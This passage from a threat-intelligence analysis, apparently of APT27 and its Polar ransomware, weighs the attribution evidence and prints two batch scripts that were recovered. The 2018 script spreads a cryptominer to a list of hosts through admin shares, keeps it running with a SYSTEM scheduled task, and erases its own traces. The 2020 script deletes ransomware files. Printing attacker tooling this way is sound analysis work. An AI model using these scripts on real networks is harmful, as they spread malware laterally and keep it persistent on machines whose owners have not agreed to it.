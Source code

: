 	2. Cryptocurrency mining and ransomware


	This is atypical and, moreover, ill-suited software that can quickly attract attention and wreck any plans for long-term cyberspying. The URL address to which the ransomware "phones home" upon completing its work does not have anything in common with APT27 network infrastructure. Of course, some groups (such as Lazarus and Winnti) combine cyberspying with direct financial motivations, so perhaps APT27 is broadening its previously limited range of interests. Or, as an alternative, the group has reached an agreement with other attackers for use of their software in return for a part of the proceeds. In favor of attribution of Polar to APT27, we can note the sequence of payload, execution, and naming: the encrypted SysUpdate backdoor is often named sys.bin.url and the Polar ransomware was named Sysurl.Hex, in a rather similar way. However, this could also be a false flag.


	3. Automation in 2018 and 2020


	Here is the script used to automatically install a cryptocurrency miner on a list of computers in 2018:



@echo off
for /f %%i in (c:\programdata\list.txt) do (
net use \\%%i\c$  "*" /u:*\administrator
copy c:\programdata\vmnat.exe \\%%i\c$\windows\system32\vmnat.exe
SCHTASKS /Create /S %%i /u *\administrator /p "*" /tn * /tr "cmd.exe /c start c:\windows\system32\vmnat.exe" /sc onstart /RU SYSTEM
schtasks /run /S %%i /u *\administrator /p "*" /tn *
net use \\%%i\c$ /del
net use * /del /Y
)

del vmnat.exe
del list.txt
del work.bat



	And this is the script used to automatically delete the ransomware from a list of computers in 2020:



@echo off
for /f %%i in (c:\programdata\list.txt) do (
   net use  \\%%i\c$ "*" /u:*\*
   if not errorlevel 1 (
     del \\%%i\c$\programdata\GameuxInstallHelper.dll
     del \\%%i\c$\programdata\GDFInstall.exe
     del \\%%i\c$\programdata\Sysurl.Hex
     net use \\%%i\c$ /del
  )ELSE (
    echo not access %%i >> c:\programdata\no_access.txt
  )
)



	(We replaced sensitive information with '*')
